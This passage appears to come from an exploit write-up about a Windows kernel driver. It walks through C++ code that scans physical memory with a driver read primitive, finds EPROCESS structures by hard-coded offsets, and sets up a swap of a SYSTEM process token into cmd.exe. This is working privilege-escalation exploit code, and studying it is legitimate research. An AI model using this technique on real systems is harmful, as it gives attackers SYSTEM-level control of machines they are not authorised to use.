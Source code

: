 ```cpp
                        // chunk. We store this as our proc_address member
                        // in PROC_DATA.
                        INT64 page_address = temp_addr - modulus;
                        proc_data.proc_address.push_back(
                            page_address);
                        proc_data.header_size.push_back(x);
                    }
                }
            }
        }
```

It will be more obvious with the entire exploit code, but what I'm doing here is basically starting from a physical address, and calling our read what where with a read size of `0x100c` (`0x1000` + `0xc` as required so we can capture a whole page of memory and still keep our returned metadata information that starts at offset `0xc` in our output buffer) in a loop all the while adding these discovered `PROC_DATA` structures to a vector. Once we hit our max address or max iterations, we'll send this vector over to a second routine that parses out all the data we care about like the `EPROCESS` members we care about. 

**It is important to note that I took great care to make sure that all calls to `MmMapIoSpace` used page-aligned physical addresses as this is the most stable way to call the API**

Now that I knew exactly how many `"Proc"` chunks I had found and stored all their relevant metadata in a vector, I could start a second routine that would use that metadata to check for their `EPROCESS` member values to see if they were processes I cared about.

My strategy here was to find the `EPROCESS` members for a privileged process such as `lsass.exe` and swap its security token with the security token of a `cmd.exe` process that I owned. You can see a portion of that code here:
```cpp
INT64 results_begin = ((INT64)output_buff + 0xc);

        INT64 imagename_address = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x450; //ImageFileName
        INT64 imagename_value = *(PINT64)imagename_address;

        INT64 proc_token_addr = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x360; //Token
        INT64 proc_token = *(PINT64)proc_token_addr;

        INT64 pid_addr = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x2e8; //UniqueProcessId
        INT64 pid_value = *(PINT64)pid_addr;

        int sys_result = count(SYSTEM_procs.begin(), SYSTEM_procs.end(),
            imagename_value);

        if (sys_result != 0) {

            system_token_count++;
            system_tokens.token_name.push_back(imagename_value);
            system_tokens.token_value.push_back(proc_token);
        }

        if (imagename_value == 0x6578652e646d63) {
            //cout << "[>] cmd.exe found!\n";
            cmd_token_address = (start_address + proc_data.header_size[i] +
                proc_data.page_entry_offset[i] + 0x360);
        }
    }

```